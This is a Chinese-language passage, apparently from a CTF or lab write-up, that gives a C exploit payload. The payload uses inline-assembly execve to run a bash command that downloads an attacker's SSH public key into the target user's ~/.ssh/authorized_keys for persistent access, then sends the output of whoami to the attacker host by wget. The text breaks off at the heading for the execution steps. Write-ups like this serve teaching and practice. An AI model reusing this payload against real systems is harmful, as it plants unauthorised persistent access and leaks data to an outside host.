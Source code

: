 **攻击思路如下：**
构造一个特殊的C语言Payload，其核心是利用内联汇编直接调用 `execve` 系统调用来执行任意命令。该命令将指示目标服务器从我们的攻击机上下载预先准备好的SSH公钥，并将其写入目标用户 `echo` 的 `~/.ssh/authorized_keys` 文件中，从而为我们建立一个持久化的SSH免密登录通道。（这里需要注意，Sublarge设置了timeout 3s，所以尽量写authorized_keys，或者使用Sublarge的思路）

*ps:Sublarge的办法在文末*

**Payload (`exploit.c`):**

```c
long syscall(long num, long p1, long p2, long p3);

int main() {
    char *sh = "/bin/bash";
    char *arg1 = "bash";
    char *arg2 = "-c";
    char *cmd = "mkdir -p ~/.ssh && busybox wget http://192.168.205.128/authorized_keys -O ~/.ssh/authorized_keys && chmod 700 ~/.ssh && chmod 600 ~/.ssh/authorized_keys && busybox wget http://192.168.205.128:80?$(whoami)";

    const long SYS_EXECVE = 59;

    
    char *argv[] = {arg1, arg2, cmd, 0};

    syscall(SYS_EXECVE, (long)sh, (long)argv, 0);

    
    while(1) {
        syscall(37, 0, 0, 0);
    }

    return 0;
}

long syscall(long num, long p1, long p2, long p3) {
    long ret;
    __asm__ volatile (
        "movq %1, %%rax\n"
        "movq %2, %%rdi\n"
        "movq %3, %%rsi\n"
        "movq %4, %%rdx\n"
        "syscall\n"
        "movq %%rax, %0\n"
        : "=m"(ret)
        : "m"(num), "m"(p1), "m"(p2), "m"(p3)
        : "rax", "rdi", "rsi", "rdx"
    );
    return ret;
}
```

**执行步骤：**

